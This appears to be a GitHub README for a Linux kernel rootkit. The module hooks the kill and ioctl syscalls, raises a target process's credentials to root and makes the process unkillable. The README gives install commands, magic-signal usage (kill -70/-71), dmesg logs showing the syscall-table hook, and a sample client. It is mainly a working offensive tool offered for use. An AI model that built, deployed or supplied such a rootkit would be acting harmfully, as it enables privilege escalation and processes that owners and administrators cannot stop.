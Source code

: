 # Process Protection Rootkit

> Hook `SYS_ioctl` & `SYS_kill` to protect process.

Kernel version:

```bash
$ uname -r
5.4.0
```

main functions:

- modify process's cred structure to root, and add the process to a protect process's link list.
- hook `SYS_kill` to protect the process (which is in the link list) to be killed by `SIG_KILL`.
- hook `SYS_ioctl` to provide a `IOCTL_*` command to protect a process (same result as `SYS_kill`).

## Installation

```bash
$ make
$ sudo insmod server/rootkit.ko
```

## Usage

### Command line

> attention: [`kill` is a built-in utility in `bash`](https://unix.stackexchange.com/questions/509688/why-does-kill-not-appear-to-be-a-bash-builtin-it-should-be)
> 
> in `bash`, `/usr/bin/kill` is a built-in utility, while `/bin/kill` directly invoke system call. this rootkit only affect the `/bin/kill`, two options can be chosen:
> 
> - use `/bin/kill`
> - use `enable -n kill`, then use `kill`

create a process by `sleep`. user `kill -70` to protect this process:

```bash
$ sleep 2000 &
[1] 1112
$ ps aux | grep sleep | grep -v grep
b3ale       1112  0.0  0.0   8076   524 pts/0    S    19:28   0:00 sleep 2000
$ kill -70 `pidof sleep`
$ ps aux | grep sleep | grep -v grep
root        1112  0.0  0.0      0     0 pts/0    D    19:28   0:00 [sleep]
```

the process can not be killed by `SIG_KILL`:

```bash
$ kill -9 `pidof sleep`
$ ps aux | grep sleep | grep -v grep
root        1112  0.0  0.0      0     0 pts/0    D    19:28   0:00 [sleep]
$ dmesg | tail -20
[  502.033131] rootkit: module verification failed: signature and/or required key missing - tainting kernel
[  502.034990] init module
[  502.034991] init protected pids list
[  502.041560] sys_call_table = 0xffffffff980013a0
[  502.041561] real_kill = 0xffffffff970b4300
[  502.041571] fake_kill = 0xffffffffc08961c0
[  502.041576] hook SYS_kill @ 0xffffffffc08961c0
[  554.361520] found task_struct @ 0xffff93637640bd00
[  554.361522] add 1112 to protected pids list
[  582.155023] can not kill the process
```

use `kill -71` to diable the protection and everything come back to normal:

```bash
$ kill -71 `pidof sleep`
$ ps aux | grep sleep | grep -v grep
b3ale       1112  0.0  0.0   8076   524 pts/0    S    19:28   0:00 sleep 2000
$ kill -9 `pidof sleep`
[1]+  Killed                  sleep 2000
```

## Sample clients

usage:

```bash
$ ./client
usage: ./client [$pid] [kill|ioctl]
```

create a process by `sleep 2000 &`, and directly use `./client` to test:

```bash
$ sleep 2000 &
[1] 6766
$ ./client ioctl `pidof sleep`
current process list
b3ale       6766  0.0  0.0   8076   584 pts/0    S    18:43   0:00 sleep 2000
b3ale       6767  0.0  0.0   1076   816 pts/0    S+   18:43   0:00 ./client ioctl 6766
protect the process
root        6766  0.0  0.0      0     0 pts/0    D    18:43   0:00 [sleep]
b3ale       6767  0.0  0.0   1076   816 pts/0    S+   18:43   0:00 ./client ioctl 6766
you can not kill the process
root        6766  0.0  0.0      0     0 pts/0    D    18:43   0:00 [sleep]
b3ale       6767  0.0  0.0   1076   816 pts/0    S+   18:43   0:00 ./client ioctl 6766
unprotect the process
b3ale       6766  0.0  0.0   8076   584 pts/0    S    18:43   0:00 sleep 2000
b3ale       6767  0.0  0.0   1076   816 pts/0    S+   18:43   0:00 ./client ioctl 6766
now you can kill the process
b3ale       6767  0.0  0.0   1076   816 pts/0    S+   18:43   0:00 ./client ioctl 6766
[1]+  Killed                  sleep 2000
```

